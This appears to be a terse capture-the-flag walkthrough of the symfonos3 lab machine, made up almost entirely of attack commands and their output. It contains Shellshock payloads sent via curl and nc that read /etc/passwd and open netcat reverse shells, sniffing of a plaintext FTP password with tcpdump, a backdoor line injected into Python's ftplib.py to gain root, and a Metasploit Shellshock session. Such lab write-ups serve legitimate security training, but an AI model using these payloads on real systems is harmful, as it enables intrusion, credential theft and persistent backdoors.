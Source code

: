 ```console

sudo nmap -sT -A -Pn -n -T4 -p-  192.168.110.48
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-16 14:43 CEST
Nmap scan report for 192.168.110.48
Host is up (0.00020s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5b
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 cd:64:72:76:80:51:7b:a8:c7:fd:b2:66:fa:b6:98:0c (RSA)
|   256 74:e5:9a:5a:4c:16:90:ca:d8:f7:c7:78:e7:5a:86:81 (ECDSA)
|_  256 3c:e4:0b:b9:db:bf:01:8a:b7:9c:42:bc:cb:1e:41:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:4A:0B:BF (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.20 ms 192.168.110.48

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.01 seconds

```
gobuster dir -f -t 50 -x html -u http://192.168.110.48 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

gobuster dir -f -t 50 -x html -u http://192.168.110.48/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

wfuzz -c -z file,/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --hc 404  http://192.168.110.48/FUZZ.php
   

ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.10.10/FUZZ




```bash

echo -e "HEAD /cgi-bin/underworld HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.110.48 80
curl -s -H "user-agent: () { :; }; echo;  /bin/bash -c '/bin/nc 192.168.110.1 4444 -e /bin/sh'" http://192.168.110.48/cgi-bin/underworld
curl -s -H "user-agent: () { :; }; echo;  /bin/bash -c '/bin/nc 192.168.110.1 4455 -e /bin/sh'" http://192.168.110.48/cgi-bin/underworld
curl -s -H "User-Agent: () { :; }; echo;  /bin/bash -c 'ping -c 1 192.168.110.1'" http://192.168.110.48/cgi-bin/underworld
curl -s -H "User-Agent: () { :; }; echo;  /bin/bash -c 'id'" http://192.168.110.48/cgi-bin/underworld

```

$ cat underworld
cat underworld
#!/bin/bash

echo "Content-type: text/html";
echo ""

uptime

$ id  
id
uid=1001(cerberus) gid=1001(cerberus) groups=1001(cerberus),33(www-data),1003(pcap)

2021/09/16 12:43:01 CMD: UID=0    PID=5203   | /bin/sh -c /usr/bin/curl --silent -I 127.0.0.1 > /opt/ftpclient/statuscheck.txt                                                                                                          
2021/09/16 12:44:01 CMD: UID=0    PID=5212   | /bin/sh -c /usr/bin/python2.7 /opt/ftpclient/ftpclient.py 
2021/09/16 12:44:01 CMD: UID=0    PID=5211   | /usr/bin/curl --silent -I 127.0.0.1 
2021/09/16 12:44:01 CMD: UID=0    PID=5210   | /bin/sh -c /usr/bin/python2.7 /opt/ftpclient/ftpclient.py 
2021/09/16 12:44:01 CMD: UID=0    PID=5209   | /bin/sh -c /usr/bin/curl --silent -I 127.0.0.1 > /opt/ftpclient/statuscheck.txt 
2021/09/16 12:44:01 CMD: UID=0    PID=5213   | proftpd: (accepting connections)               
2021/09/16 12:44:01 CMD: UID=0    PID=5214   | /usr/sbin/CRON -f 

python -c "import pty; pty.spawn('/bin/sh')"

tcpdump -vvv -i lo port ftp -c 10 -w  ftp.pcap


220 ProFTPD 1.3.5b Server (Debian) [::ffff:127.0.0.1]
USER hades
331 Password required for hades
PASS PTpZTfU4vxgzvRBE
230 User hades logged in

hades@symfonos3:/opt/ftpclient$ cat ftpclient.py 
import ftplib

ftp = ftplib.FTP('127.0.0.1')
ftp.login(user='hades', passwd='PTpZTfU4vxgzvRBE')

ftp.cwd('/srv/ftp/')

def upload():
    filename = '/opt/client/statuscheck.txt'
    ftp.storbinary('STOR '+filename, open(filename, 'rb'))
    ftp.quit()

upload()



hades@symfonos3:~$ ls -al /opt/ftpclient/ftpclient.py 
-rw-r--r-- 1 root hades 262 Apr  6  2020 /opt/ftpclient/ftpclient.py


find / -type f -writable 2>/dev/null | grep -v '^/proc'| grep -v '^/sys'

hades@symfonos3:~$ ls -al /etc/python2.7/sitecustomize.py
-rwxrw-r-- 1 root gods 155 Sep 26  2018 /etc/python2.7/sitecustomize.py
hades@symfonos3:~$ ls -al /usr/lib/python2.7/ftplib.py
-rwxrw-r-- 1 root gods 37802 Sep 16 13:54 /usr/lib/python2.7/ftplib.py

Modify the file /usr/lib/python2.7/ftplib.py

import sys
import os
os.system("nc -e /bin/bash 192.168.110.1 1234")


python -c "import pty; pty.spawn('/bin/sh')"
# id
uid=0(root) gid=0(root) groups=0(root)
#



msf6 > use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set rhosts 192.168.110.48
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set targeturi /cgi-bin/underworld
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set LHOST 192.168.110.1
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run

[*] Started reverse TCP handler on 192.168.110.1:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (984904 bytes) to 192.168.110.48
[*] Meterpreter session 1 opened (192.168.110.1:4444 -> 192.168.110.48:59564) at 2021-09-17 12:21:58 +0200

meterpreter > sysinfo
Computer     : 192.168.110.48
OS           : Debian 9.9 (Linux 4.9.0-9-amd64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter >
